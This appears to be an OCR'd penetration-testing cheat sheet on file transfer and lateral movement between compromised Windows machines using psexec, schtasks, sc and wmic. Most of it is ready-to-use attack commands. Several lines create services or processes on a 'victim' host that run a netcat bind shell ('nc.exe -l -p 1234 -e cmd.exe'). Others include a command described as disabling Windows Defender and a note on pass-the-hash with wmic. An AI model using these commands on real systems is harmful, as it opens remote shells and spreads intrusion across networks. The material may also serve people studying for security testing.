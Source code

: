 Different ways to move files from attacker PC to target system (or vice-versa):
•	TFTP, FTP, SCP, HTTP(s), Windows file sharing, NFS (TCP 2049), Netcat, meterpreter upload / download / cat / edit, Script based command line append >> file.txt

## Windows command line scripting
•	while (true) ; do [this] && [this] ; [this] ; done
•	> /dev/null means throw away
•	control /name Microsoft.WindowsDefender (command that disables windows defender)
•	control /name Microsoft.ActionCenter (command that opens up action center on windows)
•	net use M: \\ip\share <password> /u:<user>   creates SMB session and mount it on M drive
o	net use \\ip /del OR net use * /del /y    (to delete all connections without prompting yes/no)
•	runas /u:<user> <command>

Using compromised target-1 windows machine to run commands into another windows machine
•	Use of psexec from Microsoft sysinternals (by Mark Russinovich, creates psexec service on first run and -d option lets it to run in disconnected mode without waiting for standard i/p and o/p) OR Inbuilt Metasploit’s psexec exploit OR NMap’s NSE script for psexec
•	Use of ‘at’ or ‘schtasks’ command  to invoke an executable (scheduling jobs, checking status, etc.)
o	at \\target-ip [HH:mm:ss] [A|P] [command]
        schtasks /create /tn [taskname] /s [targetip] /u [user] /p [pass] /sc [frequency] /st [starttime] /sd [startdata] /tr [command]
  To run with system user: replace user and pass with “/ru SYSTEM”

SC (Service Controller) on Windows
•	Use ‘sc’ command (starting a service with sc command will always run with SYSTEM privileges but run only for 30 seconds. After that time, system will kill it as there is no API call back that service started successfully)
o	To tackle the 30 sec issue with sc command, InGuardian’s ‘ServifyThis’ tool helps as wrapper to call  the service started API call back OR run command as ‘cmd.exe /k’ in sc [/k refers to child process]
     sc \\<victim_host_name> create <service_name> binpath= “cmd.exe /k nc.exe -l -p 1234 -e cmd.exe”
•	sc query state= all  (space between equal-to(=) and all)
•	To create service on victim machine
o	sc \\<victim_host_name> create <service_name> binpath= “nc.exe -l -p -e cmd.exe”
•	To query or start or stop or delete the service from attacker machine
o	sc \\<victim_host_name> query|start|stop|delete <service_name>
o	Don’t use IP address in above commands, windows has problems. Works only with hostname.
•	‘sc’ doesn’t have access to open GUI of target-pcs, whereas ‘wmic’ can !

## wmic (Windows Management Instrumentation command-line)  uses WQL for query and update
•	Use of ‘wmic’, which is more flexible (available from XP pro to Win 10, can manage Win 2000 or later)
o	wmic /node:<targetip> /user:admin /password:cvratnam process call create <command>
	Leaving out user and pass in above command is a ‘pass-the-hash’ attack by default
o	wmic /node:@targets.txt process list brief     or process list full
•	wmic service where (displayname like “%whatever%”) get name  gives service name, not display name
•	To create service on victim machine: wmic process call create “nc.exe -l -p 12345 -e cmd.exe”
•	To delete the process: wmic process where name=”nc.exe” delete
